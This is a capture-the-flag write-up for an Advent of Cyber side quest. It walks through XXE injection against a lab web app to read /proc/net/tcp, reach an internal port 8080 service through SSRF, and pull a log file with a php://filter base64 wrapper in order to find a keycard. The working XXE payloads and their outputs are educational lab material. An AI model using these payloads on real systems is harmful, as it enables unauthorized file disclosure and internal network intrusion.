 # Advent of Cyber Side Quest - L2 Keycard

Keycard Location: Day 5
Target IP: 10.10.207.217

Considering the hint that was given it suggests that there are open ports, however, just from running an nmap scan of the target system, we cannot see anything, this is assumed since also in the hint we are told the system was hardened. 

```
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

We can see that there is nothing visible that we can access from the outside. However, if we remember the task from the room, we are able to understand that we have insider access to the target system through the XXE (XML External Entity) vulnerability. 

Whilst there may not be any public facing ports that are open, we are able to search the target system from the inside for any local ports that are open. 

To do so we will capture the POST request in Burpsuite just like the task originally asked us to:

![[Pasted image 20250101011957.png]]

Now, we need to find a file that shows the local IP addresses/ports that are available. Searching Google we find that we can look at the file: `/proc/net/tcp`

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/proc/net/tcp"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

From this we receive the following output:

```
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 0100007F:8F7B 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 25845 1 0000000000000000 100 0 0 10 0                     
   1: 0100007F:1F90 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 24855 1 0000000000000000 100 0 0 10 0                     
   2: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 26345 1 0000000000000000 100 0 0 10 0                     
   3: 0100007F:0CEA 00000000:0000 0A 00000000:00000000 00:00000000 00000000   113        0 26368 1 0000000000000000 100 0 0 10 0                     
   4: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 19946 1 0000000000000000 100 0 0 10 0                     
   5: 0100007F:8124 00000000:0000 0A 00000000:00000000 00:00000000 00000000   113        0 26365 1 0000000000000000 100 0 0 10 0                     
   6: D9CF0A0A:8C0E DC411FAC:01BB 01 00000000:00000000 02:000001EE 00000000     0        0 29146 2 0000000000000000 20 4 30 10 -1   
```

Using the following python script made by [Reboare](https://gist.github.com/Reboare/2e0122b993b8557935fd37b27436f8c2) and modifying it slightly to use a file with the above output in it, we receive a human readable file:

```
# -*- coding: utf-8 -*-
import re
import sys


def process_file(procnet):
    sockets = procnet.split('\n')[1:-1]
    return [line.strip() for line in sockets]

def split_every_n(data, n):
    return [data[i:i+n] for i in range(0, len(data), n)]

def convert_linux_netaddr(address):

    hex_addr, hex_port = address.split(':')

    addr_list = split_every_n(hex_addr, 2)
    addr_list.reverse()

    addr = ".".join(map(lambda x: str(int(x, 16)), addr_list))
    port = str(int(hex_port, 16))

    return "{}:{}".format(addr, port)

def format_line(data):
    return (("%(seq)-4s %(uid)5s %(local)25s %(remote)25s %(timeout)8s %(inode)8s" % data) + "\n")

with open('file') as f:
    sockets = process_file(f.read())

columns = ("seq", "uid", "inode", "local", "remote", "timeout")
title = dict()
for c in columns:
    title[c] = c

rv = []
for info in sockets:
    _ = re.split(r'\s+', info)

    _tmp = {
        'seq': _[0],
        'local': convert_linux_netaddr(_[1]),
        'remote': convert_linux_netaddr(_[2]),
        'uid': _[7],
        'timeout': _[8],
        'inode': _[9],
    }
    rv.append(_tmp)

if len(rv) > 0:
    sys.stderr.write(format_line(title))

    for _ in rv:
        sys.stdout.write(format_line(_))

```

```
seq    uid                     local                    remote  timeout    inode
0:       0           127.0.0.1:36731                 0.0.0.0:0        0    25845
1:       0            127.0.0.1:8080                 0.0.0.0:0        0    24855
2:       0                0.0.0.0:22                 0.0.0.0:0        0    26345
3:     113            127.0.0.1:3306                 0.0.0.0:0        0    26368
4:     101             127.0.0.53:53                 0.0.0.0:0        0    19946
5:     113           127.0.0.1:33060                 0.0.0.0:0        0    26365
6:       0       10.10.207.217:35854         172.31.65.220:443        0    29146
```

Here we see some interesting connections that were not hardened, we are specifically interested in the localhost under port 8080 which is typically used to host a local web server.

What we can do now is place this link in the XML in Burpsuite like the following:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "http://localhost:8080/"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

From this we receive the following message:

![[Pasted image 20250102161816.png]]

This may mean that there are some characters in the XML that the system cannot understand, to ensure that we make it in a format that the system understands, we will encode it using base64 using the php application:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:8080/"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

From this we receive the following base64 response:

![[Pasted image 20250102162912.png]]

Now sending the response to decoder we receive the following:

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /</title>
 </head>
 <body>
<h1>Index of /</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="access.log">access.log</a></td><td align="right">2024-12-03 12:53  </td><td align="right">223 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.41 (Ubuntu) Server at localhost Port 8080</address>
</body></html>
```

Here we don't see too much however we do see a link for access.log. 
Now adding this file to the end of the XML we will send, we receive an interesting response.

Request:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:8080/access.log"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

Response:

![[Pasted image 20250102163604.png]]

Decoded:

```
10.13.27.113 - - [18/Nov/2024:14:43:35 +0000] "GET /k3yZZZZZZZZZ/t2_sm1L3_4nD_w4v3_boyS.png HTTP/1.1" 200 194 "http://10.10.218.19/product.php?id=1" "Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0"
```

Here we receive a HTTP GET request for an interesting PNG at a specific directory and file, by heading to this file on our Wareville application we see the keycard:

![[Pasted image 20250102163830.png]]

Now we can disable the firewall using the password.